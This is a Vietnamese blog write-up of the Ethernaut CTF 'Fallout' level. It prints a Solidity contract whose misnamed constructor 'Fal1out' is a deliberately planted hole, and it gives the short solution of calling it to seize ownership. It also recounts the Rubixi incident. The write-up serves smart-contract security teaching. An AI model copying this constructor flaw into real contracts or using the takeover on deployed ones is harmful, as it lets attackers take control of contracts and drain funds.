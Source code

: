 ```yaml
---
title: "[Ethernaut CTF] Level 2: Fallout"
date: 2023-09-30 17:45:00 +0800
categories: [Blockchain, Ethereum]
tags: [Blockchain, Solidity, Ethereum, CTF]
published: true
image:
 path: https://ethernaut.zeppelin.solutions/imgs/BigLevel2.svg
---
```

# Level 2: Fallout
## ★☆☆☆☆
Một challenge nếu để ý kỹ contract thì sẽ rất dễ :>
## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

## Solution
**Target**: chiếm quyền owner .  
Nếu để ý kỹ thì ở constructor không trùng tên với contract:
```solidity
  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
  ```
Như vậy, chúng ta chỉ đơn giản là gọi đến constructor mà thôi.
 ```javascript
 contract.Fal1out()
```
Check lại owner 
```javascript
await contract.owner()
```
Một số vấn đề bên lề chút,  Rubixi sau khi đổi tên từ Dynamic Pyramid, bằng một cách nào đó mà các dev đã không rename lại constructor, thế là hacker đã lợi dụng cái đó và chiếm quyền owner =)).
> Note: Từ version 0.6.0 về sau, constructor không cần đặt tên giống với contract nữa mà sẽ mặc định là constructor lun. Như ví dụ sau:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

// Base contract X
contract X {
    string public name;

    constructor(string memory _name) {
        name = _name;
    }
}
```



